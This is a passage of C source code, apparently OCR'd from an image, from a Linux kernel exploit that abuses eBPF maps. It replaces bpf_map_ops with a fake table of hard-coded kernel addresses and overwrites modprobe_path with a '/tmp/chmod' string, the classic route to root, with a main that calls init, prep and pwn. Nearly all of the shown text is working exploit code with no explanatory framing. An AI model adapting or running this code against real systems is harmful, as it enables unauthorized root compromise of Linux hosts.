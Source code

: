 ```
        0x0,
        0x0,
        kaslr +0xffffffff8116ece0,
        kaslr +0xffffffff8116ed10,
        kaslr +0xffffffff8116ee50,
    };

    // overwrite bpf_map_ops
    memcpy(expbuf,(void *)fake_map_ops,sizeof(fake_map_ops));
    bpf_update_elem(expmapfd,&amp;key,expbuf,0);


    //overwrite modeprobe path
    ctrlbuf64[0]=0x2;
    ctrlbuf64[1]=0x1;
    bpf_update_elem(ctrlmapfd,&amp;key,ctrlbuf,0);
    writemsg();

    expbuf64[0] = 0x706d742f -1;
    bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path);
    expbuf64[0] = 0x6d68632f -1;
    bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path+4);
    expbuf64[0] = 0x646f -1;
    bpf_update_elem(expmapfd,&amp;key,expbuf,modprobe_path+8);
}





int main(int argc,char **argv){
    init();
    prep();
    pwn();
    return 0;
}


static void __exit(char *err) {              
    fprintf(stderr, "error: %sn", err); 
    exit(-1);                            
}                                            
static void writemsg(void) {                                     
    char buffer[64];                                         
    ssize_t n = write(sockets[0], buffer, sizeof(buffer));   
}                                                                


static int bpf_prog_load(enum bpf_prog_type prog_type,         
        const struct bpf_insn *insns, int prog_len,  
        const char *license, int kern_version){

    union bpf_attr attr = {                                        
        .prog_type = prog_type,                                
        .insns = (uint64_t)insns,                              
        .insn_cnt = prog_len / sizeof(struct bpf_insn),        
        .license = (uint64_t)license,                          
        .log_buf = (uint64_t)bpf_log_buf,                      
        .log_size = LOG_BUF_SIZE,                              
        .log_level = 1,                                        
    };                                                             
    attr.kern_version = kern_version;                              
    bpf_log_buf[0] = 0;                                            
```